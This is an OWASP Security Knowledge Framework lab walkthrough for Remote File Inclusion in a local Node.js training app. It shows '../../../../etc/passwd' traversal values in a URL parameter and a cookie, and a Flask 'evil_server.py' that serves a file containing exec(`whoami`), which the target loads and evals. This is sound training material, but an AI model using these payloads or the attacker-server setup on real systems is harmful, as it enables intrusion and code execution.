 # Remote File Inclusion - RFI

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:js-rfi
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:js-rfi
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

Remote File Inclusion (also known as RFI) is the process of including files, that are supplied into the application and loaded from an external (remote) source, through the exploiting of vulnerable inclusion procedures implemented in the application. This vulnerability occurs, for example, when a page receives, as input, the path to the file that has to be included and this input is not properly sanitized, allowing directory traversal characters (such as dot-dot-slash) to be injected. Although most examples point to vulnerable PHP scripts, we should keep in mind that it is also common in other technologies such as JSP, ASP and others.

Warning: To successfully test for this flaw, the tester needs to have knowledge of the system being tested and the location of the files being requested. There is no point requesting /etc/passwd from an IIS web server.

Some Examples:

```text
http://example.com/getUserProfile.jsp?item=../../../../etc/passwd

Cookie: USER=1826cc8f:PSTYLE=../../../../etc/passwd
```

The File Inclusion vulnerability allows an attacker to include a file, usually exploiting a "dynamic file inclusion" mechanisms implemented in the target application. The vulnerability occurs due to the use of user-supplied input without proper validation.

This can lead to something as outputting the contents of the file, but depending on the severity, it can also lead to:

Code execution on the web server

Code execution on the client-side such as JavaScript

which can lead to other attacks such as:

Cross-site scripting (XSS)

Denial of Service (DoS)

Sensitive Information Disclosure

Let us see how can we exploit the file inclusion vulnerability in a real world scenario, the application here allows us to run 2 commands from the drop down list. One is running Date and the other is Calendar.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/nodejs/RFI/1.png)

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/nodejs/RFI/2.png)

When we will have a look in our intercepting proxy we can see that the application uses a predefined file that contains the command to execute and prints the results of it.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/nodejs/RFI/3.png)

## Exploitation

To exploit this Remote File Inclusion vulnerability, let's use Python Flask to create a small webserver that serves your file. We name it evil_server.py

```python
from flask import Flask, request, url_for, render_template, redirect


app = Flask(__name__)
app.config['DEBUG'] = True

@app.route("/evil.py")
def start():
    return render_template("evil.py")

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)
```

Then we create our folder template where we will put our evil.txt file with the below content:

```javascript
exec(`whoami`);
```

Now we are ready to start our evil_server.py and try to make the application load our evil file and hopefully it will get executed.

```
$ pip install flask
$ python3 evil_server.py
```

Our remote file inclusion worked and the application seems to load javascript files and eval() the content of them.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/nodejs/RFI/4.png)

Success! As we observed, we can include our own files through RFI.

## Additional sources

{% embed url="https://www.owasp.org/index.php/Testing_for_Remote_File_Inclusion" %}
